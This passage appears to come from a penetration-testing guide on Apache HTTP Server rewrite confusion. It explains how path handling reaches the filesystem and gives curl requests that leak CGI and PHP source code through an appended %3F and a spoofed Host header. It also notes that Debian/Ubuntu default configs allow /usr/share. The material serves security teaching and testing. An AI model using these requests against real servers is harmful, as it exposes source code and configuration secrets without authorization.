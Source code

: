 A fun fact about Apache is that the previous rewrite will try to access the file from both the documentRoot and from root. So, a request to `https://server/abouth.html` will check for the file in `/var/www/html/about.html` and `/about.html` in the file system. Which basically can be abused to access files in the file system.

#### **Server-Side Source Code Disclosure**

- **Disclose CGI Source Code**

Just adding a %3F at the end is enough to leak the source code of a cgi module:

```bash
curl http://server/cgi-bin/download.cgi
 # the processed result from download.cgi
curl http://server/html/usr/lib/cgi-bin/download.cgi%3F
 # #!/usr/bin/perl
 # use CGI;
 # ...
 # # the source code of download.cgi
```

- **Disclose PHP Source Code**

If a server has different domains with one of them being a static domain, this can be abused to traverse the file system and leak php code:

```bash
# Leak the config.php file of the www.local domain from the static.local domain
curl http://www.local/var/www.local/config.php%3F -H "Host: static.local"
 # the source code of config.php
```

#### **Local Gadgets Manipulation**

The main problem with the previous attack is that by default most access over the filesystem will be denied as in Apache HTTP Server’s [configuration template](https://github.com/apache/httpd/blob/trunk/docs/conf/httpd.conf.in#L115):

```xml
<Directory />
    AllowOverride None
    Require all denied
</Directory>
```

However, [Debian/Ubuntu](https://sources.debian.org/src/apache2/2.4.62-1/debian/config-dir/apache2.conf.in/#L165) operating systems by default allow `/usr/share`:

```xml
<Directory /usr/share>
    AllowOverride None
    Require all granted
</Directory>
```

Therefore, it would be possible to **abuse files located inside `/usr/share` in these distributions.**
